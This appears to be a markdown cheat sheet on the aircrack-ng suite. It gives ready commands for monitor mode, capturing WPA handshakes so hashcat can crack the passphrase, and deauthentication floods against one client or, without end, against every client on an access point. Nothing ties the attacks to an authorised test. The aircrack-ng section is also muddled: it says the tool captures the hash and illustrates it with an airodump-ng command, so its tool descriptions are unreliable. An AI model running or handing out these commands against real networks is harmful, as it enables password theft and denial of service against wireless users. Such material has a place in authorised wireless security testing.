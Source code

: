 ### Using some of aircrack-ng suite's tools:
 - aircrack-ng, airodump-ng and airmon-ng, aireplay-ng


## airmon-ng(used to change interaces into monitor mode)
  - monitor mode: `sudo airmon-ng start wlan0` (assuming wlan0 is your interface's name)
  - the name will likely be: `wlan0mon`
  - kill processes using that network adapter: `airmon-ng check kill`

## airodump-ng(captures packets from an interface in monitor mode)
  - `sudo airodump-ng wlan0mon` 

 ## aircrack-ng(captures the hash of the passphrase from the 4-way-handshake)
  - Important switches
  ```sh
  -b (to specify the bssid)
  -e (to specify the essid)
  -w (to specify a wordlist)
  -j (create an HCCAPX file so that hashcat can crack the password)
  -c (specifies the channel the access point is operating)
  ```
  - use example: `sudo airodump-ng -b 00:11:22:33:44:55 -c 6 -w capture wlan0mon`

  - `-b`: The MAC address of the target access point.
  - `-c 6`: The channel on which the access point operates.
  - `-w capture`: The prefix of the filename to save the capture.
 

## aireplay-ng(force the clients to deauth to speed up the process of getting the passwd hash)
  
  ### deauthenticate specific client:
  - example use: `sudo aireplay-ng --deauth 10 -a 00:11:22:33:44:55 -c AA:BB:CC:DD:EE:FF wlan0mon`

  - `--deauth 10`: Sends 10 deauthentication packets.
  - `-a 00:11:22:33:44:55`: The MAC address of the access point.
  - `-c AA:BB:CC:DD:EE:FF`: The MAC address of the client to deauthenticate.

  ### deauthenticate all clients:
  - example use: `sudo aireplay-ng --deauth 0 -a 00:11:22:33:44:55 wlan0mon`

  - `--deauth 0`: Sends deauthentication packets continuously (0 means infinite).
  - `-a 00:11:22:33:44:55`: The MAC address of the target access point.
  - `wlan0mon`: Your wireless interface in monitor mode.
